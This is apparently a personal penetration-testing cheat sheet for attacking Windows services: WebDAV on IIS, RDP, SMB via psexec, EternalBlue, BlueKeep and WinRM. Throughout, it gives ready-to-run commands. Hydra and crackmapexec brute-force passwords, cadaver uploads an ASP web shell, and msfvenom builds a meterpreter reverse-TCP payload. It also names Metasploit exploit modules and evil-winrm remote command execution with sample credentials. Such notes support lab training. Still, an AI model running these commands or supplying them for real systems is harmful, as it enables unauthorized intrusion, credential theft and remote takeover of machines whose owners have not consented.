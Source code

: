 # **Windows Vulnerabilities**

--------------------------------------------------------------------

## Micorosoft IIS

> .asp

> .aspx

> .config

> .php

--------------------------------------------------------------------

## WebDAV

> To connect to webDAV we need credentials

```
$ nmap scan -sV -sC

$ nmap -sV -p80 —script=http-enum

$ hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 0.0.0.0 http-get /webdav/
```


> tool davtest (scan, authenticate and exploit)
```
$ davtest -auth bob:password_123321 -url http://0.0.0.0/webdav
```

> tool cadaver (manipulating)
```
$ cadaver http://0.0.0.0/webdav
> username:
> password:
> put /usr/share/webshells/asp/webshell.asp
> dir C:\

$ ls -la /usr/share/webshells/asp (in this case asp is the one we can execute so)
```
> Metasploit
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=1234 -f asp > shell.asp

upload it with cadaver

multi/handler

set payload windows/meterpreter/reverse_tcp (the same in the payload)

run the payload and wait on the handler

exploit/windows/iis/iis_webdav_upload_asp

set username and password
```

--------------------------------------------------------------------

### RDP: (bruteforce) 3389 normally

```
$ hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit.framework/data/wordlists/unix_passwords.txt rdp://0.0.0.0 -s 3333 
> wait 1 minute to connect with the password
> xfreerdp /u: /p: /v:

auxiliary/scanner/rdp/rdp_scanner
> set strange port
```

--------------------------------------------------------------------

### Psexec: (bruteforce) smb

```
exploit/windows/smb/psexec

set windows/x64/meterpreter/reverse_tcp

we can use the hash obtained before or the password obtained by smb_login
```

--------------------------------------------------------------------

### EternalBlue: smb

```
$ nmap -p445 —script smb-vuln-ms17-010 0.0.0.0 
```

--------------------------------------------------------------------

### BlueKeep: (rdp) execute code

```
auxiliary/scanner/rdp/cve_2019_0708_bluekeep 

> use this first to check wether it is vulnerable and later use the exploit

auxiliary/scanner/rdp/cve_2019_0708_bluekeep_rce

set target (windows version)
```

--------------------------------------------------------------------

### WinRM:
> winrm = remote management protocol can be used to facilitate remote acces with windows systems (http = 5985, https = 5986)

```
$ crackmapexec winrm 0.0.0.0 -u administrator /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

$ crackmapexec winrm 0.0.0.0 -u administrator -p tinkerbell -x “whoami”

$ evil-winrm.rb -u administrator -p ‘tinkerbell’ -i 0.0.0.0

exploit/windows/winrm/winrm_script_exec
> set Force_vns true
```

